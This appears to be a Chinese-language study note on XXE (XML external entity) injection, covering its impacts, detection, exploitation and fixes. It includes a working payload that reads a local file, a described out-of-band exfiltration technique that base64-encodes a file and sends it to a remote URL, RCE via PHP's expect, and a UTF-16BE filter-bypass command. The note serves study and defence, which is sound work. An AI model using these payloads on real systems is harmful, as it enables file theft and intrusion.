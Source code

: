 # XML&XXE

XML是一种用来传输和存储数据的格式类型

XXE：XML的漏洞注入全称

## XXE（XML External Entity Injection）
## XML外部实体注入漏洞

XXE漏洞发生在应用程序解析XML输入时，没有禁止外部实体的加载，导致可加载恶意外部文件，造成危害

危害：

文件读取，RCE，内网攻击，DOS

检测：

白盒（函数及可控变量查找），黑盒（人工：数据格式类型判断，如`<user>test</user>`，Content-Type值判断，如`text/xml`或者`application/xml`，更改`Content-Type`值看返回结果；工具检测）

利用：

输出形式：有回显（协议玩法，http，file，其他协议；外部引用），无回显（外部引用-反向链接配合）
过滤绕过：协议玩法，外部引用，编码`UTF-16BE`

修复：

禁用外部实体引用
过滤关键字
WAF产品



### 漏洞利用示例：
```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
	<!ENTITY xxe SYSTEM "file:///d://test.txt">
]>
<x>&xxe;</x>
```

直接放到接收xml数据的api里执行

其他玩法：请求内网地址，可以探测内网，类似ssrf

RCE：安装了expect扩展的php环境，可以使用expect当作协议来执行系统命令

引入外部实体dtd

从远程加载xml



### 无回显：

这种情况下使用`php://filter/read=convert.base64-encode/resource=test.txt`

类似这种方式，读取文件然后base64编码

然后请求远程地址

如`http://127.0.0.1/x.php?data=%file;`

把数据发送出去，远端接收即可

可以用查看日志等方式查看到结果

关于xxe绕过

参考：`https://www.cnblogs.com/20175211lyz/p/11413335.html`



`UTF-16BE：`

`cat payload.xml | iconv -f utf-8 -t utf-16be > payload.8-16be.xml`

### xxe靶场：`xxe-lab`

### xxe测试点寻找：`burpsuite抓包+发送到爬虫+HTTP history+Filter（过滤器）查找MIME type为xml的数据`

### base32：一种类似base64的编码

### XXE安全漏洞自动化注射脚本工具-`XXEinjector（Ruby）`
